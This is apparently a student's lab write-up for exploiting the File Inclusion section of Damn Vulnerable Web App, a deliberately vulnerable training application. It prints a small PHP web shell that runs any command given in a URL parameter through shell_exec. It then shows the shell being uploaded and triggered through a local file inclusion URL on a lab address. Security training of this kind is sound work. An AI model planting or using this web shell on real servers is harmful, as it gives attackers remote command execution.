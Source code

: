 ![15](./15.png)

## 6. Exploit the "Damn Vulnerable Web App" application's "File Inclusion" section so that you can remotely execute commands on the attacked computer.

Credentials: admin, admin

Before completing the exercise, I've build a php server locally:

```
<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
} else {
    echo "No command provided.";
}
?>
```

After that I've uploaded this php file via `Upload` section.

Then, It has shown me the path where the file was downloaded: `../../hackable/uploads/shell.php`

I also want to inject the file with a certain command to see if it works as expected. It should execute the command provided. The url will be `http://10.200.122.18/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell.php?cmd=ls`

![19](./19.png)

Double checked with bwapp app
